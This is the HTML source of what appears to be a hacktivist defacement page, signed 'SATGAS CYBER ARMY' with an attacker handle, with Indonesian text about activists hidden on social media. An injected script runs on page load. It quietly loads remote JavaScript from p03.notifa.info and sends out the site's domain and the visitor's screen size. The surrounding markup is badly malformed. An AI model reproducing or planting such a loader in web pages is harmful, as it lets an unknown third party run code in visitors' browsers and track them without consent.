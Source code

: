 Kami ada, namun hanya tak terlihat oleh
mata di media sosial...
Kami ada, namun hanya berbeda cara
menampakkan diri di media sosial...
Cara pandang manusia memanglah
berbeda, mungkin ini terlihat aneh disebagian
orang, namun itulah cara kami eksis di dunia
maya dengan tersembunyi dibalik akun-akun
kami</b></marquee> </font></footer>
<script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "p03.notifa.info/3fsmd3/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582NzYpoUazw5mNxKi%2fxC7ebdS3eJs%2b6T6Q2Zpt3CiSQ9hfIE%2fJOcsShmlwh%2fdDmUV%2bCwmAoY0ZNXc7jvHaXzGzIeHO0%2bXakgPUHZn%2flJk%2bITXonUrxbSbXKqnGZ76pSRYc%2bYyzqZof013Avb%2bPlPeqJTrqNQZCQogevUF36222PpTVOUGcVbaw%2fPUdny1aYHCRD7V5Eilm1mQirTauYuYIEIi4t6x%2bkOpYMIwPOTHumrf4QbnrTFRMyzhgUMkh%2f7VlyL7Jydi0m54oRJ3IWKNa1oYh2CxfGs%2fiZmIXm4iasmVinefM1j8OUDdx%2fG9fSekstPVGzYQVTX2oRtAiemUyPcEUDO%2fl03LPgoYCf5cxMdASkGNcdryUGn06410pfdhPZxEA4OldUpccUPoTfO8N8xRPSQkzi1qqW%2bQETLwe%2fpakjpt8PWdXACMp%2bZYhuNt3b%2b8uUf%2fonR3%2b2MXXkdhsqzIg%2b%2fK7zlqljEuCruVYD0nHO6yEqD2tcx%2f5UYtowp1eQsalx%2ffoZBl1rdlpUdeyc3f80Pod53GN12DOkSRuTTMAJIzmX4lLqtz18ucsJ8weYj673vm%2fIBFPTz6M0qxlqgl94oxj9KT5w%3d%3d" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script></body>satgas cyber army</html>
   <br>
  <a href="" style="text-decoration: none; ">
 <font color="#000000">
 <table id="AutoNumber1" style="BORDER-COLLAPSE: collapse" cellspacing="0" cellpadding="0" width="100%" border="1">
  <tbody>
<tr>
    <td width="99%">
      <p align="center" dir="ltr">
<font color="#808080" face="Tahoma">
<span <ul="" lang="en-us">
© 
<font color="#FFFFFF" face="Tahoma">#RELAWAN212
  <a href="" style="text-decoration: none; ">
  <font color="#FFFFFF">  SATGAS CYBER ARMY</font></a></font></span></font><font class="whiteglow" face="tahoma"><span <ul=""><font color="#808080" face="Tahoma">  
 <img alt="" src="http://2.bp.blogspot.com/-cSLbkvdSibg/VKPuotgV-0I/AAAAAAAAADs/-j6S7Vb1HAg/s1600/wpd3928d7b_06.png" width="16" height="16">
</font>
</span>
</font><font color="#808080" face="Tahoma">
<span <ul="">
<font color="#000000">
<a href="" style="text-decoration: none">
<font face="Tahoma" color="#808080">I LOVE ISLAM</font></a> 
</font> 
</span></font>
<b>
<span class="style2"><span class="style3"><font face="Papyrus" ;="" color="grey" size="8">
<font face="Orbitron" 
<p class="style1"><font face="Papyrus" ;="" color="grey" size="8">
<code>
<font size="4" color="#ffffff" face="Tahoma" ; id="ResponseData"><span <ul="" lang="en-us">
<font color="#ffffff" face="Tahoma" size="4">
<span <ul="">
<span class="style0 style2 style5">
<font face="Century Gothic" style="font-size: 22pt" color="#ffcc99" size="5">
  <a href="" style="text-decoration: none; ">
 <span class="style73"I AM: | Mr.4r-b@73r3ck | B </span><font class="whiteglow" face="tahoma">